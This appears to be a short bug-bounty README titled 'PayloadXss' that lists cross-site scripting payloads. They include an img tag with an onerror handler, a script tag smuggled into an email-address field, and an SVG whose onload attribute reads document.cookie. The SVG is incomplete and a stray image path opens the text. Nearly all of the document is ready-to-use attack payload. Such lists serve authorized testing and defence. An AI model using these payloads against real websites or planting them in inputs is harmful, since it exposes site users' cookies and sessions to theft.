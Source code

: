 # PayloadXss

"><img src=x onerror=alert(document.cookie);>

"<script>alert(1)</script>"@example.com


https://github.com/B1naryo/Bug-Bounty-Ebook/blob/main/BugBount/

PAYLOAD SVG
<?xml version="1.0" standalone="no"?> 
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 20010904//EN" 
"http://www.w3.org/TR/2001/REC -SVG-20010904/DTD/svg10.dtd"> 
<svg version="1.0" xmlns="http://www.w3.org/2000/svg" 
width="2560.000000pt" height="1600.000000pt" viewBox= "0 0 2560.000000 1600.000000" 
preserveAspectRatio="xMidYMid meet" onload="alert(document.cookie)"> 
<metadados>
